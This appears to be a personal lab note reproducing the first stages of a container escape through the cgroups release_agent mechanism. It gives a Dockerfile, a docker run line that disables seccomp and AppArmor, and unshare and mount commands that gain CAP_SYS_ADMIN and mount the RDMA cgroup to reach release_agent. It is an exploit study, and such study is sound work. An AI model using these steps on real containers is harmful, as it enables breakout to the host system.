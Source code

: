 ### 1 - User namespace Escape

Mounting a **cgroupfs** requires the **CAP_SYS_ADMIN** capability in the user namespace hosting the current cgroup namespace. By default, containers run without **CAP_SYS_ADMIM**, and thus cannot mount **cgroupfs** in the initial user namespace. But through the **unshare()** syscall, containers can create new user and cgroup namespaces where they possess the CAP_SYS_ADMIN capability and can mount a cgroupfs.

- Write Dockerfile, build and run image

```bash
# Dockerfile
FROM ubuntu:15.10
# RUN apt-get install libcap2-bin
RUN apt update && apt upgrade -y && apt-get install -y libcap2-bin
```

```bash
# Run the image with no Seccomp and Apparmor protection
sudo docker run --rm -it --security-opt seccomp=unconfined --security-opt apparmor=unconfined leo/ubuntu:v2
```

- Run commands within the container

```bash
set 'cat /proc/$$/status | grep "CapEff:"'; capsh --decode=$2 | grep sys_admin
unshare -UrmC bash
```

- : 

  1. Failed to run command `unshare` in image `ubuntu:15.10` because there was no argument `-C`.

     Sovled: change the base image from `ubuntu:15.10` to `ubuntu:18.04`

  2. Failed to run command while building image `apt-get install libcap2-bin`.

     Sovled: using command `RUN apt update && apt upgrade && apt-get install libcap2-bin`

```bash
unshare -UrmC bash
```

### 2 - Mounting the root RDMA cgroup

![image-20220508145052012](/Users/liyonghui/Library/Application Support/typora-user-images/image-20220508145052012.png)

> The container mounts the **memory** cgroup in the new user and cgroup namespaces

 In the screenshot above, the container successfully mounted a memory cgroup, but the `release_agent` file isn’t included in the mounted directory.![image-20220508145250874](/Users/liyonghui/Library/Application Support/typora-user-images/image-20220508145250874.png)

As mentioned earlier, the **release_agent** file is only visible in the root cgroup. One caveat of mounting a cgroupfs in a cgroup namespace is that you mount the cgroup you belong to, not the root cgroup.

```bash
unshare -UrmC bash
mount -t cgroup -o rdma cgroup /mnt
ls -al /mnt/ | grep release_agent
```
